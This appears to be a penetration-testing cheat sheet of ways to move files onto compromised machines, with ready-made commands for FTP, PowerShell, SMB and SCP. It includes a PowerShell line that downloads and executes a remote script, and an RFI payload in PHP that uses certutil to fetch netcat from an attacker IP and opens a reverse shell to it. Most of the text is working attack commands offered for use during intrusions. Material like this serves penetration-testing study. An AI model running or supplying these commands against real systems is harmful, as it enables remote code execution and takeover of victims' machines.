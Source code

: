 # File Transfer

15 Ways to transfer a file
https://blog.netspi.com/15-ways-to-download-a-file/#perl

### FTP
/etc/init.d/pure-ftpd restart

Windows
FTP reverse shell
echo "open <IP>" > ftp.txt  
echo "offsec" >> ftp.txt  
echo "offsec" >> ftp.txt  
echo "bin" >> ftp.txt  
echo "get file.exe" >> ftp.txt  
echo "bye" >> ftp.txt   

ftp -s ftp.txt  

Linux
ftp -4 -d -v ftp://offsec:offsec@127.0.0.1//linuxprichecker.py < ftp upload one liner linux

### Powershell
In Kali
python -m SimpleHTTPServer 80

  Stop services   
  List PID of servies   
    ps -l   
    kill -9 PID   

#### In reverse shell - Windows
```shell
powershell.exe  (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip") 

powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://<IP>/<script>')"

powershell full path:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe
```
#### Non-interactive execute powershell file

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1

### Smbsever
impacket-smbserver <share name> <path>

net view \\\\\<ip>

#### Obtaining Shell on a Remote Windows Server RFI 
1. Create and host your file (in this case, we call our file evil.txt) on your attacking machine-192.168.105.130
The evilfile.txt contains the php file with windows command for the reverse shell as shown below:
```shell
<?php echo shell_exec('certutil.exe -urlcache -split -f "http://192.168.105.130/nc.exe" nc.exe && nc.exe -nv 192.168.105.130 91 -e cmd.exe');?>
```
note that our command uses certutil to download netcat (nc.exe). Certutil is not installed by default on XP/Win2003 but is avaialble on the newer windows versions.For XP/2003 you'll need the Admin Tool Pack for windows server 2003
### SCP
After login through ssh
scp <fileToUpload> user@remote:/path
